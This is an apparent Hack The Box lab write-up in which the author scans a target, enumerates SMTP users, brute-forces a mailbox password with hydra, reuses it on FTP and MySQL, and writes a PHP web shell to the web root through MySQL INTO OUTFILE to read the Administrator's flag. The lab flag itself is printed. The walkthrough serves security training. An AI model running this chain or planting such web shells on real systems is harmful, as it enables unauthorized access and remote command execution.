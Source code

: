 # Attacking Common Services - Easy
The following labs will contain flags in the format `HTB{...}`. We are tasked to review the security of each of the 3 servers and present it to the customer.

This lab is a server that manages emails, customers, and their files.

## Approach
To understand what services are running on the target, we can perform a Nmap scan.
```bash
nmap -sV -sC 10.129.233.19
```
![Nmap](img/nmap_1.png)
![Nmap](img/nmap_2.png)<br>
From the results, we can see that the target is running:
- FTP on port 21
- SMTP on port 25/587
- HTTP/S on port 80/443
- MySQL on port 3306
- RDP on port 3389

The FTP service does not allow anonymous login.

Let's try to enumerate the SMTP service with `smtp-user-enum`. The username list is provided by HTB under the "Resources" tab in "Attacking Common Services Userlist".
```bash
smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t 10.129.233.19
```
![smtp-user-enum](img/smtp-user-enum.png)<br>
We can see that we found a valid user, `fiona@inlanefreight.htb`. I will then brute force fiona's password with `hydra`.
```bash
hydra -l 'fiona@inlanefreight.htb' -P /usr/share/wordlists/rockyou.txt smtp://10.129.233.19
```
We then successfully found a valid credential, `fiona@inlanefreight.htb:987654321`.

I proceeded to try accessing FTP with the found credentials, `fiona:987654321` due to possible password reuse. <br>
After turning off passive mode, I found an interesting file, `WebServersInfo.txt`.
![ftp](img/ftp.png)<br>
We can see that the text file mentions that CoreFTP is being used.
![webserverinfo](img/webserversinfo.png)<br>

We know that there is also MySQL service running on the target.<br>
We can try to access the service with fiona's account.
```bash
mysql -u fiona -p -h 10.129.233.19 --skip-ssl
```
With this, I managed to access MariaDB. First, let me check if fiona has limitations of data import and export operations.<br>
![check](img/secure_file_priv.png)<br>
Since the value is empty, there is no effect.

We can then write a file in the webserver directory, then curl the file location and execute our commands. From `WebServersInfo.txt`, we can see that Apache is also being used and the directory is `C:\xampp\htdocs\`, so we can upload our file there to browse it from our machine.
```mysql
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:\\xampp\\htdocs\\webshell.php';
```
![sql webshell](img/maria_Db.png)<br>

Now, I can execute commands on this webshell with `curl http://10.129.233.19/webshell.php?c=<cmd>`.
![webshell](img/webshell.png)

To add spaces in our URL, we need the URL-encoding for space, which is `%20`.
```bash
curl http://10.129.233.19/webshell.php?c=type%20C:\\Users\\Administrator\\Desktop\\flag.txt
```

We then obtained the flag: `HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}`.